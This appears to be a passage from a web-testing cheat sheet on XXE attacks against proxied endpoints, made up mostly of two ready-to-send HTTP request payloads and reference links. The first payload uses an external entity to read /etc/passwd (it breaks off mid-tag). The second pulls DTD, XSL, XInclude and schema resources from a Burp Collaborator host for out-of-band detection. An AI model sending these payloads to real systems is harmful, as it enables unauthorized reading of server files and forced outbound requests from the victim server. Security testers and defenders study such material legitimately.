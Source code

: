 * If Body Of Request JSON Data , Try To Convert It XML With XXE Payloads

```http
POST /Endpoint-To-Proxy/ HTTP/1.1
Host: www.company.com
Content-Type: application/xml
Content-Length: Number
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
 <parame
```

* [https://www.slideshare.net/ssuserf09cba/xxe-how-to-become-a-jedi](https://www.slideshare.net/ssuserf09cba/xxe-how-to-become-a-jedi)
* [https://blog.netspi.com/playing-content-type-xxe-json-endpoints/](https://blog.netspi.com/playing-content-type-xxe-json-endpoints/)
* [https://blog.zsec.uk/blind-xxe-learning/](https://blog.zsec.uk/blind-xxe-learning/)

```http
POST /Endpoint-To-Proxy/ HTTP/1.1
Host: www.company.com
Content-Type: application/xml
Content-Length: Number


<?xml version="1.0" encoding="utf-8"?>
<?xml-stylesheet type="text/xml "href="http://RandomString(10).id.burpcollaborator.net/file.xsl"?>
<!DOCTYPE root PUBLIC "-//A/B/EN" http://RandomString(10).id.burpcollaborator.net/file.dtd [
<!ENTITY % remote SYSTEM "http://RandomString(10).id.burpcollaborator.net/path">
<!ENTITY xxe SYSTEM "http://RandomString(10).id.burpcollaborator.net/path">
%remote;
]>
<root>
    <foo>&xxe;</foo>
    <x xmlns:xi="http://www.w3.org/2001/XInclude">
    <xi:includehref="http://RandomString(10).id.burpcollaborator.net/" ></x>
    <y xmlns=http://a.b/
    xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
    xsi:schemaLocation="http://a.b/
    http:///RandomString(10).id.burpcollaborator.net/file.xsd">a</y>
</root>
```

* [https://youtube.com/watch?v=ha6LD1-RiJU](https://youtube.com/watch?v=ha6LD1-RiJU)

### References

* [https://infocondb.org/con/kernelcon/kernelcon-2020/attacking-secondary-contexts-in-web-applications](https://infocondb.org/con/kernelcon/kernelcon-2020/attacking-secondary-contexts-in-web-applications)
* [https://www.youtube.com/watch?v=hWmXEAi9z5w](https://www.youtube.com/watch?v=hWmXEAi9z5w)
* [https://2020.kernelcon.org/cfp/K2020\_scurry.pdf](https://2020.kernelcon.org/cfp/K2020\_scurry.pdf)
* [https://2018.zeronights.ru/wp-content/uploads/materials/20-Reverse-proxies-Inconsistency.pdf](https://2018.zeronights.ru/wp-content/uploads/materials/20-Reverse-proxies-Inconsistency.pdf)
* [Secondary-Contexts.pdf](https://prod-files-secure.s3.us-west-2.amazonaws.com/20824215-2216-4e41-a444-2e6158426b5c/1eccb217-8160-472f-86e9-8c05cac6419a/Secondary-Contexts.pdf)
* [https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/](https://blog.detectify.com/industry-insights/common-nginx-misconfigurations-that-leave-your-web-server-ope-to-attack/)
* [https://docs.google.com/presentation/d/1N9Ygrpg0Z-1GFDhLMiG3jJV6B\_yGqBk8tuRWO1ZicV8/edit#slide=id.g722ec9d5aa\_0\_0](https://docs.google.com/presentation/d/1N9Ygrpg0Z-1GFDhLMiG3jJV6B\_yGqBk8tuRWO1ZicV8/edit#slide=id.g722ec9d5aa\_0\_0)
* [https://x.com/samwcyo/status/1243998130108084224?lang=en](https://x.com/samwcyo/status/1243998130108084224?lang=en)